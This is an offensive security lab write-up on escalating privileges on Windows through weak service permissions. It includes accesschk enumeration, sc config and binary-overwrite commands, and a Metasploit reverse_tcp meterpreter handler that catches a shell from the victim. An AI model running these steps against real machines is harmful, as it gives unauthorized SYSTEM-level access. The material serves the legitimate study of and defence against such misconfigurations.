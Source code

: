 # Weak Service Permissions

This quick lab covers two Windows service misconfigurations that allow an attacker to elevate their privileges:

1. A low privileged user is allowed to change service configuration - for example change the service binary the service launches when it starts
2. A low privileged user can overwrite the binary the service launches when it starts

## 1. Changing Service Configuration

Let's enumerate services with `accesschk` from SysInternals and look for `SERVICE_ALL_ACCESS` or `SERVICE_CHANGE_CONFIG` as these privileges allow attackers to modify service configuration:

{% code title="attacker@victim" %}
```
\\vboxsvr\tools\accesschk.exe /accepteula -ucv "mantvydas" evilsvc
or
\\vboxsvr\tools\accesschk.exe /accepteula -uwcqv "Authenticated Users" *
```
{% endcode %}

Below indicates that the user `mantvydas` has full access to the service:

![](../../.gitbook/assets/annotation-2019-05-21-205403.png)

Let's modify the service and point its binary to our malicious binary that will get us a meterpreter shell when the service is launched:

{% code title="attacker@victim" %}
```
.\sc.exe config evilsvc binpath= "c:\program.exe"
```
{% endcode %}

![](../../.gitbook/assets/annotation-2019-05-21-205633.png)

Let's fire up a multihandler in mfsconsole:

{% code title="attacker@kali" %}
```
msfconsole -x "use exploits/multi/handler; set lhost 10.0.0.5; set lport 443; set payload windows/meterpreter/reverse_tcp; exploit"
```
{% endcode %}

...and start the vulnerable service:

{% code title="attacker@victim" %}
```
.\sc.exe start evilsvc
```
{% endcode %}

..and enjoy the meterpreter session:

![](../../.gitbook/assets/annotation-2019-05-21-210027.png)

Note that the meterpreter session will die soon since the meterpreter binary `program.exe` that the vulnerable service `VulnSvc` kicked off, is not a compatible service binary. To save the session, migrate it to another sprocess:

{% code title="attacker@kali" %}
```
run post/windows/manage/migrate
```
{% endcode %}

Even though the service failed, the session was migrated and saved:

![](<../../.gitbook/assets/Annotation 2019-05-21 210541 (1).png>)

## 2. Overwriting Service Binary

From the first exercise, we know that our user has `SERVICE_ALL_ACCESS` for the service `evilsvc`. Let's check the service binary path:

{% code title="attacker@victim" %}
```
sc.exe qc evilsvc
```
{% endcode %}

![](../../.gitbook/assets/annotation-2019-05-21-210916.png)

Let's check file permissions of the binary c:\service.exe using a native windows tool `icals` and look for (M)odify or (F)ull permissions for `Authenticated Users` or the user you currently have a shell with:

{% code title="attacker@victim" %}
```
icacls C:\service.exe
```
{% endcode %}

![](../../.gitbook/assets/annotation-2019-05-21-211128.png)

Since c:\service.exe is (M)odifiable by any authenticated user, we can move our malicious binary c:\program.exe to c:\service.exe:

{% code title="attacker@victim" %}
```
cp C:\program.exe C:\service.exe
ls c:\
```
{% endcode %}

![](../../.gitbook/assets/annotation-2019-05-21-211232.png)

...and get the meterpreter shell once `sc start evilsvc` is executed. Note that the shell will die if we do not migrate the process same way as mentioned earlier:

![](../../.gitbook/assets/annotation-2019-05-21-211349.png)

Since services usually run under `NT AUTHORITY\SYSTEM`, our malicious binary gets executed with `SYSTEM` privileges:

![](../../.gitbook/assets/annotation-2019-05-21-212438.png)
